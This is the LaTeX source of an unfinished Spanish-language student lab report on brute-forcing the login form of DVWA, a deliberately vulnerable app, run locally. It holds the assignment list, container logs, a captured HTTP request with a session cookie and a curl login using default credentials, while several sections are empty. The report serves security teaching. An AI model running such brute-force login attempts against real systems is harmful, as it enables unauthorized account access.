\documentclass[letter,12pt]{article}
\usepackage[paperheight=27.94cm,paperwidth=21.59cm,bindingoffset=0in,left=3cm,right=2.0cm, top=3.5cm,bottom=2.5cm, headheight=200pt, headsep=1.0\baselineskip]{geometry}
\usepackage{graphicx,lastpage}
\usepackage{upgreek}
\usepackage{censor}
\usepackage[spanish,es-tabla]{babel}
\usepackage{pdfpages}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{adjustbox}
\usepackage{xcolor}
\usepackage{colortbl}
\usepackage{rotating}
\usepackage{multirow}
\usepackage[utf8]{inputenc}
\usepackage{float}
\usepackage{hyperref}

\renewcommand{\tablename}{Tabla}
\usepackage{fancyhdr}
\pagestyle{fancy}

\fancyhead[L]{}
%
\begin{document}
%
   \title{\Huge{Informe Laboratorio 2}}

   \author{\textbf{Sección x} \\  \\Camilo Rojas \\ e-mail: camilo.pinto1@mail.udp.cl}
          
   \date{Octubre de 2025}

   \maketitle
   
   \tableofcontents
 
  \newpage
  

\section{Descripción de actividades}
Utilizando la aplicación web vulnerable DVWA

(Damn Vulnerable Web App - \href{https://github.com/digininja/DVWA}{https://github.com/digininja/DVWA} (Enlaces a un sitio externo.)) realice las siguientes actividades:


\begin{itemize}
    \item Despliegue la aplicación en su equipo utilizando docker. Detalle el procedimiento y explique los parámetros que utilizó.
    \item Utilice Burpsuite (https://portswigger.net/burp/communitydownload (Enlaces a un sitio externo.)) para realizar un ataque de fuerza bruta contra formulario ubicado en vulnerabilities/brute. Explique el proceso y obtenga al menos 2 pares de usuario/contraseña válidos. Muestre las diferencias observadas en burpsuite.
    \item Utilice la herramienta cURL, a partir del código obtenido de inspect elements de su navegador, para realizar un acceso válido y uno inválido al formulario ubicado en vulnerabilities/brute. Indique 4 diferencias entre la página que retorna el acceso válido y la página que retorna un acceso inválido.
    \item Utilice la herramienta Hydra para realizar un ataque de fuerza bruta contra formulario ubicado en vulnerabilities/brute. Explique el proceso y obtenga al menos 2 pares de usuario/contraseña válidos.
    \item Compare los paquetes generados por hydra, burpsuite y cURL. ¿Qué diferencias encontró? ¿Hay forma de detectar a qué herramienta corresponde cada paquete?

    \item Desarrolle un script en Python para realizar un ataque de fuerza bruta:

    \begin{itemize}
        \item Utilice la librería requests para interactuar con el formulario ubicado en vulnerabilities/brute y desarrollar su propio script de fuerza bruta en Python.
        El script debe realizar intentos de inicio de sesión probando una lista de combinaciones de usuario/contraseña.

        \item  Identifique y explique la cabecera HTTP que empleará para realizar el ataque de fuerza bruta.

        \item  Muestre el código y los resultados obtenidos (al menos 2 combinaciones válidas de usuario/contraseña).

        \item Compare el rendimiento de este script en Python con las herramientas Hydra, Burpsuite, y cURL en términos de velocidad y detección.
    \end{itemize}

    \item  Investigue y describa 4 métodos comunes para prevenir o mitigar ataques de fuerza bruta en aplicaciones web:

    \begin{itemize}
        \item Para cada método, explique su funcionamiento, destacando en qué escenarios es más eficaz.

    \end{itemize}


    
\end{itemize}

\section{Desarrollo de actividades según criterio de rúbrica}

\subsection{Levantamiento de docker para correr DVWA (dvwa)}
\begin{verbatim}

camilo@fedora:/var/www/html/dvwa/config$ sudo podman run --rm -it -p 80:80 vulnerables/web-dvwa
✔ docker.io/vulnerables/web-dvwa:latest
Trying to pull docker.io/vulnerables/web-dvwa:latest...
Getting image source signatures
Copying blob 6cff5f35147f done   | 
Copying blob 3e17c6eae66c done   | 
Copying blob 0c57df616dbf done   | 
Copying blob eb05d18be401 done   | 
Copying blob e9968e5981d2 done   | 
Copying blob 2cd72dba8257 done   | 
Copying blob 098cffd43466 done   | 
Copying blob b3d64a33242d done   | 
Copying config ab0d83586b done   | 
Writing manifest to image destination
[+] Starting mysql...
[ ok ] Starting MariaDB database server: mysqld.
[+] Starting apache
[....] Starting Apache httpd web server: apache2AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 10.88.0.2. Set the 'ServerName' directive globally to suppress this message
. ok 
==> /var/log/apache2/access.log <==

==> /var/log/apache2/error.log <==
[Wed Oct 01 23:25:52.197358 2025] [mpm_prefork:notice] [pid 297] AH00163: Apache/2.4.25 (Debian) configured -- resuming normal operations
[Wed Oct 01 23:25:52.197422 2025] [core:notice] [pid 297] AH00094: Command line: '/usr/sbin/apache2'

==> /var/log/apache2/other_vhosts_access.log <==

==> /var/log/apache2/access.log <==
10.88.0.1 - - [01/Oct/2025:23:26:05 +0000] "GET / HTTP/1.1" 302 479 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
10.88.0.1 - - [01/Oct/2025:23:26:05 +0000] "GET /login.php HTTP/1.1" 200 1049 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"

\end{verbatim}
\subsection{Redirección de puertos en docker (dvwa)}

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 22-50-08.png}
    \caption{Ventana de exportación de certificado CA desde Burp Suite}
    \label{fig:certificateburp}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 22-52-57.png}
    \caption{Importación de certificado CA en navegador web Firefox}
    \label{fig:certificate}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 23-12-48.png}
    \caption{Ventana que muestra los ajustes generales del proxy en Burp Suite}
    \label{fig:proxygeneralsetting}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 23-12-53.png}
    \caption{Ventana que muestra el ajuste de manejo de un 'proxy listener'}
    \label{fig:placeholder}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 23-14-34.png}
    \caption{Captura de pantalla de sitio DVWA levantado localmente}
    \label{fig:dvwastartscreen}
\end{figure}
\subsection{Obtención de consulta a replicar (burp)}
\begin{verbatim}
    

GET /vulnerabilities/brute/?username=jdsfnjdsbsj&password=jkfdnjfb&Login=Login HTTP/1.1
Host: localhost:8889
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-CL,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://localhost:8889/vulnerabilities/brute/
Cookie: PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i


\end{verbatim}
\subsection{Identificación de campos a modificar (burp)}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-19-38.png}
    \caption{Send to Intruder}
    \label{fig:sendtointuder}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-20-22.png}
    \caption{Intruder full screen}
    \label{fig:intruder}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-25-19.png}
    \caption{Payload 1}
    \label{fig:payload1}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-25-58.png}
    \caption{Payload 2}
    \label{fig:payload2}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-26-54.png}
    \caption{Lista de ataques por lista simple}
    \label{fig:ataqueslistasimple}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-27-12.png}
    \caption{Respuesta web ante una combinación válida de usuario y contraseña}
    \label{fig:intrudersuccesfulattack}
\end{figure}
\subsection{Obtención de diccionarios para el ataque (burp)}
\begin{verbatim}
/vulnerabilities/brute/?username=jdsfnjdsbsj&password=jkfdnjfb&Login=Login
\end{verbatim}
\subsection{Obtención de al menos 2 pares (burp)}

\subsection{Obtención de código de inspect element (curl)}

\subsection{Utilización de curl por terminal (curl)}

PAR VÁLIDO ABAJO
\begin{verbatim}
$ curl "http://localhost:8889/vulnerabilities/brute/?username=admin&password=password&Login=Login" \
-b "PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low"

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

	<head>
		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />

		<title>Vulnerability: Brute Force :: Damn Vulnerable Web Application (DVWA) v1.10 *Development*</title>

		<link rel="stylesheet" type="text/css" href="../../dvwa/css/main.css" />

		<link rel="icon" type="\image/ico" href="../../favicon.ico" />

		<script type="text/javascript" src="../../dvwa/js/dvwaPage.js"></script>

	</head>

	<body class="home">
		<div id="container">

			<div id="header">

				<img src="../../dvwa/images/logo.png" alt="Damn Vulnerable Web Application" />

			</div>

			<div id="main_menu">

				<div id="main_menu_padded">
				<ul class="menuBlocks"><li class=""><a href="../../.">Home</a></li>
<li class=""><a href="../../instructions.php">Instructions</a></li>
